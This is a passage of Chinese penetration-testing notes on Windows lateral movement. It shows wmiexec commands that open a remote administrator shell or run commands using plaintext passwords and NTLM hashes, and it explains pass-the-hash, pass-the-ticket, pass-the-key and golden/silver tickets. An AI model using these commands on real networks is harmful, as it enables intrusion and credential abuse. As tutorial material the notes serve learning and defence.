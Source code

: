 ### 自带cscript明文传递 无回显

```powershell
# 直接会反弹对方的shell，权限为administrator
cscript //nologo wmiexec.vbs /shell 192.168.10.1 administrator abc.123.com
```

### 套件impacket wmiexec 明文或hash传递 有回显exe版本

支持明文、hash，但可能会被免杀

```powershell
wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"
wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"
wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"
wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
```

总结

* 官方的工具（at&schtasks&smb&wmi）功能少，不用免杀，只能用明文
* 第三方工具（impack中的atexec&smbexec&wmiexec）功能多，考虑要免杀，可以明文和hash

因此要更加深入**PTH&PTT&PTK**

## PTH&PTT&PTK(三种攻击方式)

* PTH(pass the hash) #利用 LM或 ntlm 的值进行的渗透测试

* PTT(pass the ticket) #利用的票据凭证 TGT 进行的渗透测试

* PTK(pass the key) #利用的 ekeys aes256 进行的渗透测试

### PTH

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码

**如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可 以攻击成功。对于 8.1/2012r2，安装补丁kb2871997 的 Win 7/2008r2/8/2012 等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击**

总结: KB2871997 补丁后的影响

* pth：没打补丁用户都可以连接，打了补丁只能 administrator 连接
* ptk：打了补丁才能用户都可以连接，采用 aes256 连接

### PTT

三种攻击方式

* MS14-068
* Golden tcket（黄金票据）
* SILVER ticket（白银票据）

后两种属于权限维持技术

#### 案例一 横向移动PTH传递-mimikatz
